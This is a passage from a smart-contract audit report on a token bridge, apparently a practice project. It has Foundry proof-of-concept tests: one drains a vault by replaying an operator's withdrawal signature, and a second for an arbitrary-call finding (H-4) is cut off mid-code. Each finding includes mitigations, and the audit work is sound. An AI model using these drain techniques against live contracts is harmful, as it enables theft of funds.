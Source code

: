 **Proof of Concept:** As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

**Recommended Mitigation:** Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] ``L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

**Description:** The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

**Impact:** It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concept:** To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
```